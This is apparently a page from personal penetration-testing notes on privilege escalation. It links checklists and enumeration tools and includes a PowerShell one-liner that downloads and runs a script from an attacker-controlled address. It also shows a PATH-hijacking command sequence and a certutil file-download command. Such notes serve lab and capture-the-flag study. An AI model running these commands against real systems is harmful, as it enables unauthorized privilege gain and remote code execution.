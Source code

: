 ```yaml
---
title: "Priv-Esc"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


|Checklists|
|-|
|[g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)|
|[hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) |
|[fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html) |
|[PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)
|[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)|

|Scripts| |
|-|-|
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)|
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)|
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) |
| MSF - local_exploit_suggester |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock) | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` | 

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## [GTFOBins](https://gtfobins.github.io/)

## Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
